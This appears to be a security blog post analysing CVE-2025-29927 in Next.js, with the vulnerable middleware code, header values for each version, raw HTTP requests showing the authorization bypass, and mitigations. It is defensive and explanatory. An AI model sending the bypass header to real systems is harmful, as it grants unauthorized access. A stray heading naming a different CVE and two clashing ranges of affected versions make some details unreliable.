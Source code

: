 ```yaml
---
id: 2
title: "CVE-2025-29927: Next.js Middleware Authorization Bypass"
date: "Apil 16, 2025"
category: "vulnerability"
tags: ["CVE", "VulnerabilityResearch", "InfoSec", "Exploits","TechnicalAnalysis"]
author: "Hamza Khattak"
image: "/assets/img/blog/nextjs_blog.png"
authorQuote: "Stay Vigilant, Stay Secure"
---
```


![CVE-2025-24016](/assets/img/blog/nextjs_blog.png)

### CVE-2025-2401: Unsafe Deserialization in Wazuh – RCE

### Description
Next.js, an open-source web framework developed by Vercel, powers modern React-based applications with advanced features like server-side rendering and static site generation. Recently, a critical vulnerability (CVE-2025-29927) was uncovered, allowing attackers to bypass middleware-based authorization checks. This flaw was initially discovered and analyzed by Rachid Allam (zhero). In this post, we’ll dive into the technical details of the vulnerability, explore Rachid’s research, and craft a Nuclei template to help you detect this issue across your environment.

The vulnerability impacts Next.js middleware, a key feature often used to enforce authorization, rewrite paths, handle server-side redirects, and apply response headers like Content Security Policy (CSP).

By exploiting this flaw, an attacker can completely bypass middleware logic simply by adding a malicious `x-middleware-subrequest` HTTP header to their requests.


### Technical Breakdown

- **Affected Software**: Next.js  
- **Affected Versions**: 1.11.4 - 12.3.5, 13.5.9, 14.2.25, and 15.2.3  
- **CVSSv3.1 Score**: 9.1 (Critical)  
- **CVSSv3.1 Vector**: `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N`  
- **Affected Component**: Middleware  
- **Attack Vector**: Network  
- **Privileges Required**: Low (API Access)  
- **User Interaction**: None  
- **Scope**: Unchanged  

The vulnerability affects Next.js versions 11.1.4 through 13.5.6, as well as 14.x before 14.2.25 and 15.x before 15.2.3. The implications are severe for applications that depend on middleware for access control, as this can lead to unauthorized access to protected routes or resources—without authentication.

### Affected Component Analysis

In Next.js applications, middleware plays a critical role in handling tasks like authentication, logging, and security enforcement for all incoming requests. CVE-2025-29927 stems from how Next.js improperly processes the x-middleware-subrequest header internally.

Here's how the vulnerability works at the code level:javascript


```javascript
const subreq = params.request.headers["x-middleware-subrequest"];
const subrequests = typeof subreq === "string" ? subreq.split(":") : [];

if (subrequests.includes(middlewareInfo.name)) {
  result = {
    response: NextResponse.next(),
    waitUntil: Promise.resolve(),
  }
  continue;
}
```

The x-middleware-subrequest header is a special internal flag used by Next.js to signal that a request was generated within the framework itself specifically, as a subrequest triggered by middleware, not as a direct client request. This mechanism is essential for the proper functioning of Next.js features and helps prevent infinite middleware recursion by keeping track of internal calls.

![nextjs_blog_0.png](/assets/img/blog/nextjs_blog_0.png)

However, this internal trust in the presence of the header introduces a serious flaw: attackers can craft requests that include this header, tricking Next.js into treating them as internal. As a result, middleware logic such as authentication checks can be completely bypassed.


### Exploitation Techniques

The method of exploitation slightly differs depending on the version of Next.js being used:

| **Next.js Version**       | **Middleware Naming/Location**                                | **Header Format (x-middleware-subrequest)**                                      |
|---------------------------|---------------------------------------------------------------|----------------------------------------------------------------------------------|
| **Prior to 12.2**          | `_middleware.ts` in `pages` folder                            | `pages/_middleware`                                                              |
| **Nested Routes (Prior to 12.2)** | `_middleware.ts` in nested `pages` directories         | `pages/dashboard/_middleware`, `pages/dashboard/panel/_middleware`               |
| **12.2 and Later**         | `middleware.ts` (no underscore), not in `pages` folder        | `middleware`                                                                      |
| **12.2 and Later (with /src)** | `middleware.ts` inside `/src` directory                     | `src/middleware`                                                                 |
| **13.2.0 and Later**       | Same as 12.2+ but with recursion depth limit for middleware  | `middleware:middleware:middleware...` or `src/middleware:src/middleware...`      |


To illustrate the vulnerability, imagine a Next.js app with middleware that guards the `/protected` route by redirecting unauthorized users to `/login`.  
Normally request to `/protected` without proper authorization results in a redirect to `/login`.

**Request:**
```
GET /protected HTTP/1.1  
Host: 192.168.44.201:3000  
Upgrade-Insecure-Requests: 1  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36  
Connection: keep-alive
```

**Response:**
```
HTTP/1.1 307 Temporary Redirect  
location: /  
Date: Wed, 16 Apr 2025 09:52:51 GMT  
Connection: keep-alive  
Keep-Alive: timeout=5  
Content-Length: 1  
/
```

An attacker can bypass this protection by sending a request with the appropriate header:

**Request:**
```
GET /protected HTTP/1.1  
Host: 192.168.44.201:3000  
Upgrade-Insecure-Requests: 1  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36  
x-middleware-subrequest: middleware  
Connection: keep-alive
```

**Response:**
![nextjs_blog_0.png](/assets/img/blog/nextjs_blog_1.png)

By including a specific header, the request bypasses the middleware’s authorization logic entirely and proceeds straight to /protected, giving the attacker unauthorized access to restricted content.


### Mitigation Strategies

1. **Upgrade to a Patched Version**
The most effective mitigation is to upgrade to a secure version of Next.js where this vulnerability has been fixed.

Patched versions:
- 12.3.5
- 13.5.9
- 14.2.25
- 15.2.3

Upgrading ensures the issue is resolved at the framework level without requiring manual workarounds.

If upgrading is not immediately feasible, apply the following temporary mitigations:

#### 2. Strip the Header at the Load Balancer

If your application is behind a load balancer (e.g., AWS ELB, Cloudflare), configure it to remove the `x-middleware-subrequest` header from all incoming traffic.

#### 3. Configure Web Server to Remove the Header

**Nginx**  
Add this to your server block to strip the header:

```nginx
proxy_set_header x-middleware-subrequest "";
```

**Apache (mod_headers)**  
Use this directive to unset the header:

```apache
RequestHeader unset x-middleware-subrequest
```

---

#### 4. Custom Server Middleware (e.g., Express)

If you're using a custom server with Express, strip the header before it reaches Next.js:

```javascript
app.use((req, res, next) => {
  delete req.headers['x-middleware-subrequest'];
  next();
});
```


### References

- [GitHub Security Advisory](https://github.com/vercel/next.js/security/advisories/GHSA-f82v-jwr5-mffw)  
- [Proof of Concept GitHub Repo](https://github.com/mhamzakhattak/CVE-2025-29927)
- [Next.js Middleware Documentation](https://nextjs.org/docs/app/building-your-application/routing/middleware)  
- [Original Research](https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware)  

---
